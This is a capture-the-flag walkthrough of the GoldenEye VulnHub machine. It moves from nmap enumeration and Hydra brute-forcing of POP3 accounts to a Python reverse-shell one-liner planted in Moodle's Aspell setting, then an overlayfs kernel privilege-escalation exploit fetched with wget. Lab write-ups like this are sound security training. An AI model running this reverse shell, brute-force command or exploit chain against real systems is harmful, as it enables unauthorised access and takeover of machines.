






# GoldenEye

Difficulty: Medium

# Introduction

This room will be a guided challenge to hack the James Bond styled box and get root.

Credit to [creosote](https://www.vulnhub.com/author/creosote,584/) for creating this VM. This machine is used here with the explicit permission of the creator <3

So.. Lets get started!

# Enumeration
 
 First up we kick off our enumeration with an nmap scan on the target to discover open ports and services running.

Nmap scan result:

**Question 1**: 
Use nmap to scan the network for all ports. How many ports are open? 4

Next up is to take a look at the http website which is being served on port 80.

Question 2:
Take a look on the website, take a dive into the source code too and remember to inspect all scripts!

It gives us a directory to navigate to for login.
Viewing the source code, there is a javascript code we can inspect like the question advises

We seem to have a comment giving us a username and  an encoded password. Using my favorite tool we can identify and decode this easily.

It's identified to be "HTML Escape". Now to decode it:

We now have a password. Let's now navigate to the login page. InvincibleHack3r

Here we have a webpage talking about GoldenEye and some nice action in the background. It also states that pop3 has been configured to run on a high non-default port which is 55007 from our nmap scan.

Taking a look at the page's source code we have a new name now, Natalya. It might be useful later on.

Onto the next steps..

**Question 7**:
Take a look at some of the other services you found using your nmap scan. Are the credentials you have re-usable?

Using netcat to try and login to the pop3 service using the credentials we got earlier doesn't work:

**Question 8**:
If those creds don't seem to work, can you use another program to find other users and passwords? Maybe Hydra?Whats their new password?

As the question suggest we can try to use hydra to brute-force for the password with the usernames at hand. Remember we now have 2 usernames boris and natalya.

I tried using this syntax ` hydra -l boris -P /usr/share/wordlists/rockyou.txt pop3://<IP>:<PORT>`  with the wordlist "rockyou.txt" but it wasn't working for some reason until i used a different syntax with the wordlist "fasttrack.txt"

Now we have 2 sets of credentials for login to the pop3 service.

**Question 9:** 
If those creds don't seem to work, can you use another program to find other users and passwords? Maybe Hydra?Whats their new password? ........

**Question 10**:
Inspect port 55007, what services is configured to use this port? telnet

A list of telnet commands can be found [here](https://www.shellhacks.com/retrieve-email-pop3-server-command-line/) 

Now with the credentials we can login to pop3 email system using telnet

After logging in and listing the contents, we have 2 messages which we can display the contents of using the command `RETR <number>`. We can also copy and save all the messages to our local machine in a text file for later reference.

**Question 12**:
What can you find on this service? emails

**Question 13**: 
What user can break Boris' codes? The answer is in the 2nd email

**Question 14**:
Using the users you found on this service, find other users passwords
We have already found a username and password for another user earlier. We can now try to login as this user.

**Question 15**:
Keep enumerating users using this service and keep attempting to obtain their passwords via dictionary attacks.

After logging in as the second user we can find some credentials for yet another user to login as.

Enumeration really is key. Making notes and referring back to them can be lifesaving. We shall now go onto getting a user shell.

## Instructions 

If you remembered in some of the emails you discovered, there is the severnaya-station.com website. To get this working, you need up update your DNS records to reveal it.

If you're on Linux edit your "/etc/hosts" file and add:

`<machines ip> severnaya-station.com`

If you're on Windows do the same but in the "c:\Windows\System32\Drivers\etc\hosts" file

Just as instructed edit the /etc/hosts file using any text edit of your choice eg nano, vim, make sure to use "sudo" if you're not the root user.

Once you have done that, in your browser navigate to: http://severnaya-station.com/gnocertdir

Try using the credentials you found earlier. Which user can you login as? We enter the credentials we found earlier and login.

Have a poke around the site. What other user can you find?

Navigating to the "messages" section we can find a user named "Doak".

What was this users password?
We can try to brute-force for his pop3 password using hydra.

**Question 21**:
Use this users credentials to go through all the services you have found to reveal more emails.

yet another set of credentials after logging in to the pop3 service.

**Question 24**:
Take a look at their files on the moodle (severnaya-station.com)

**Question 25**:
Download the attachments and see if there are any hidden messages inside them?

The message reveals a secret directory which we can navigate to and it states the creds for the admin user was captured.

Here we have a .jpg image. Since the question asks us to find hidden messages inside of them we can try a few tools like "strings".

here we have  a username and  a base64 code which can be decoded to give a possible password.

We now have YET ANOTHER SET OF CREDENTIALS!!!!! AHHHHHHH!!!!!!

Using the username admin and the password we just decoded we can log into the site.

As this user has more site privileges, you are able to edit the moodles settings. From here get a reverse shell using python and netcat.

# Initial Access

Take a look into Aspell, the spell checker plugin.

click on settings and search for aspell

Now to enter the reverse shell payload. It has to be a python payload and after some trial and error this specific payload worked for me: `python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("1<IP>",<PORT>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

Also change the spell engine path to `PSpellShell`  rather than the google shell.

Now setup a netcat listener on our local machine on the same port specified in the payload: `nc -lvnp <PORT>`

Navigating to the forum page to create a new page then select the spellcheck button to execute the payload and we successfully get a shell:

# Privilege Escalation

Now that you have enumerated enough to get an administrative moodle login and gain a reverse shell, its time to priv esc.

Download the [linuxprivchecker](https://gist.github.com/sh1n0b1/e2e1a5f63fbec3706123) to enumerate installed development tools.

To get the file onto the machine, you will need to wget your local machine as the VM will not be able to wget files on the internet. Follow the steps to get a file onto your VM:

- Download the linuxprivchecker file locally
- Navigate to the file on your file system
- Do: **python -m SimpleHTTPServer 1337** (leave this running)
- On the VM you can now do: wget /.py

**OR**

Enumerate the machine manually.

Whats the kernel version?

This machine is vulnerable to the overlayfs exploit. The exploitation is technically very simple:

- Create new user and mount namespace using clone with CLONE_NEWUSER|CLONE_NEWNS flags.
- Mount an overlayfs using /bin as lower filesystem, some temporary directories as upper and work directory.
- Overlayfs mount would only be visible within user namespace, so let namespace process change CWD to overlayfs, thus making the overlayfs also visible outside the namespace via the proc filesystem.
- Make su on overlayfs world writable without changing the owner
- Let process outside user namespace write arbitrary content to the file applying a slightly modified variant of the SetgidDirectoryPrivilegeEscalation exploit.
- Execute the modified su binary

You can download the exploit from here: [https://www.exploit-db.com/exploits/37292](https://www.exploit-db.com/exploits/37292)

Fix the exploit to work with the system you're trying to exploit. Remember, enumeration is your key!

What development tools are installed on the machine?

What is the root flag?

First of after downloading the exploit, we have to change just one small thing. The target system doesn't have gcc installed so we have to make use of cc to compile the exploit. Instead of using `gcc <exploit> -o <output>` we use `cc <exploit> -o <output>`

First up download the exploit to your local machine. Next is to open with with any text editor.

scroll to the bottom and change the "gcc" to "cc". Save and close this file.

Next up is to transfer the exploit to the target machine. This can easily be done by setting up a python server on host machine and using wget on target machine to download the exploit:

Setup python server in the same directory as the exploit: `python3 -m http.server`

Download the exploit on target machine: `wget http://IP:PORT/exploit`

Next is to add executable permission so we can run the file: `chmod +x exploit` and run it `./exploit`

Finally last step is to find and cat the flag!

GGs 🤝 Thanks for Reading!